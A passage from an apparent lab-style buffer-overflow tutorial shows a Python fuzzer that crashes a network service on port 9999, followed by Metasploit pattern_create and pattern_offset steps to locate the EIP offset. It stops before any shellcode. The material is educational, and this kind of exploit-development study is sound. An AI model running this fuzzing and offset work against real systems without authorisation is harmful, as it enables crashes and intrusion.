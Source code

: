 We can try fuzzing the amount of A's it takes to roughly estimate where the crash occurs.

```Python
#!/usr/bin/env python3
import socket,sys
from time import sleep

ip="192.168.56.10"
port=9999
buffer = b"A"*100

while True:
  try:
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,port))
    s.send((buffer))
    s.close()
    sleep(1)
    buffer += b"A"*50
  except:
    print("Error at {} bytes".format(str(len(buffer))))
    sys.exit()
```

When we run `fuzzer.py`, we can see the script crashed the program at sending 700 bytes.

```Bash
Error at 700 bytes
```

To find the exact offset where the program crashes, we'll use a tool that's included in Metasploit Framework (pattern_create.rb). As length, we will use the same as the amount of bytes that our Python script sent, to crash the program.

`/opt/metasploit-framework/tools/exploit/pattern_create.rb -l 700`

We don't have to use the while loop anymore and we will change the buffer we send, to include the pattern we just created.

```Python
buffer = b"<pattern>"
```

We note the EIP value in Immunity Debugger and use it as input in another Metasploit Framework tool (pattern_offset.rb)

![EIP value Immunity Debugger](/img/eip_value_debugger.png)
